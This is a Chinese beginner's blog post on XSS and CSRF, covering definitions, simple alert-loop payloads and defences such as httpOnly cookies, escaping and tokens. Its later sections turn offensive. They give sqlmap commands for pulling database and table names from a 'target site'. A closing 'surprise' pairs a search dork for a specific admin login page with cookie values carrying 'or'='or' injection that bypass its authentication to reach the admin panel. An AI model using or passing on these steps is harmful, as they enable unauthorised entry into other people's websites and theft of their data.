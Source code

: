 ## 初识web安全之XSS与CRSF

#### 一、XSS的定义与分类

##### 1.1、XSS定义：

跨站脚本攻击（Cross Site Scripting ）攻击者通过非法的html标签或者javascript代码，从而控制浏览器；

##### 1.2、XSS的分类：大致分为三类DOM型 、反射型、存储型

一、DOM xss：即dom对象，允许程序和脚本动态的访问和更新文档内容，样式，结构等，触发xss完全依靠浏览器的dom解析们可以认为完全是客户端的行为，如（虚假表单，收录私人信息）

二、反射型xss:非持久性的xss，即xss代码直接出现在url中，最后提交到服务器，服务器解析这个xss代码，最后被浏览器执行，如利用脚本获取cookie信息，然后偷偷的发送恶意请求ps:(小广告别乱点)

三、存储型 xss：又称为持久性XSS（最危险的跨站脚本），具有更高的隐蔽性，凡是允许用户存储数据的web程序都可能存在存储型XSS漏洞，当攻击者提交一段XSS代码后，被服务器端接收并存储，当所有浏览者访问某个页面时都会被XSS，其中最典型的例子就是留言板。

##### 1.3、XSS的一些常见案例

在评论区的富文本框中写上写小玩意儿试试：

```
<font size =“100”color=“red”> 来啊!造作啊!</font>
<script>while(true){alert(‘来啊，造作啊！’)}</script> //如下图

```
![web-xss](https://user-images.githubusercontent.com/23492904/46751045-0b602a80-ccec-11e8-9c79-3a1d54313baa.png)

##### 1.4、XSS攻击的防御 

其实只要在有数据输入的地方就有存在XSS的风险，所以防范方法大概如下

1、后台程序httpOnly去设置cookie后，js的脚本就无法读取cookie的信息，如koa 中ctx.cookies.set(name,value,{httpOnly:true})

2、对输入的数据格式进行检查，前后端都要做。在某些情况下不能严格的过滤是，需要对标签进行转换，如 <  &lt; > &gt &lt等

总结：其实在谷歌浏览器是自动屏蔽了xss的攻击。例如我们在url中添加

```
？XSS=<script>while(true){alert(“来啊，造作啊”)}</script>）
```

这个浏览器会自动认为是不合法的。在安全方面其实前端和后端应该协同起来，对用户输入的内容校验。尽量去避免自己的网站作品被黑客轻易的攻下。

#### 二、CSRF的定义与XSS的区别

##### 2.1、CSRF的定义：

跨站点请求伪造（cross-site Request Forgeries）,在用户不知情的情况下，冒充用户发起一些恶意请求。例如（修改用户信息，删除评论，发起转账等行为

##### 2.2、CSRF和XSS的区别：

CSRF通常是由XSS实现的，本质上讲，XSS是因为输入的内容被恶意代码被注入，CSRF：则是因为服务器过度相信用户的会话cookie，因为cookie是具有同源策略，点击小广告，然后你的cookie就别携带到了黑客的界面，界面里面怎么弄那就是他的领地了，所以小广告别乱点。 

##### 2.3、一些CSRF的防御策略

1、验证码：强制用户进行交互才能完成请求，但是用户体验差，比如你的小飞机验证

2、尽量使用post，至少请求内容不能随意被篡改。

3、允许域名的白名单，其他都屏蔽掉。

4、推荐和常用的方法：token后端随机生成token，把token保存到session,前端携带token，后端验证，但是网站本身存在xss的漏洞，这都是笑话

##### 三、一些常用的爆破工具

##### 3.1、sqlmap,这个在github上有资源。环境python

使用方法：寻找到你的目标网站，一般是什么PHP?id=12**这一类的

 python sqlmap.py -u "http://[你的站点域名]/about.php?id=1*" --batch 

--batch –current-db  //查看数据库的版本信息

--batch –D sailodln_main –tables  //查看表名

--batch -D sailodln_main -T  表名 –columns//查看表中的字段

--force-ssl //忽略https

--threads=0~10 //开启多线程模式

##### 3.2、 WebRobot，作用进行端口扫描，C段，注入扫描等 
![webroot](https://user-images.githubusercontent.com/23492904/46751238-7dd10a80-ccec-11e8-9e3a-3be214f32f04.png)

##### 4、小惊喜

1、百度搜索：inurl:szwyadmin/login.asp” （目标网站）

在控制台中输入

1、 document.cookie="adminuser="+escape("'or'='or’”)

2、 document.cookie="adminpass="+escape("'or'='or’”)

3、 document.cookie="admindj="+escape("1")

 然后 重新进入该网站。并把地址栏的 login.asp 改为 admin_index.asp，回车一下我们就进入后台管理了！ps:(利用了框架中自带的弊端，这也许就是java和其他后台语言相比能够一路高歌猛进的一部分原因吧！)



